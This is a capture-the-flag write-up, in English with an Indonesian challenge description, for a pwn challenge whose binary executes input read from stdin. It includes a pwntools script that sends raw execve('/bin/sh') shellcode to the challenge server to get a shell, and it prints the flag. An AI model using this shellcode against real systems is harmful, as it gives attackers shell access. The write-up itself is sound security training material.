 # tinggal run

## Description

asli serius tinggal run aja

## Solution

I am given an executable file, then i analyze it using ghidra and found a code that could be exploited.

```c
FUN_004010c0(0, local_108, 0x100);
(*(code *)local_108)();
```

The code above shows that the program reads input from stdin and stores it in local_108, then executes it as a function. So i can use pwn to send shellcode to get the flag.

```python
from pwn import *

shellcode = b"\x48\x31\xf6\x48\x31\xd2\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xb8\x3b\x00\x00\x00\x0f\x05"

p = remote('intersec.hcs-team.com', 10431

) 
p.sendline(shellcode)
p.interactive()
```

After i run this i got the flag: `HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm_40115064-b747-429a-b9e0-d7c220afee33}`

![run](./run.png)
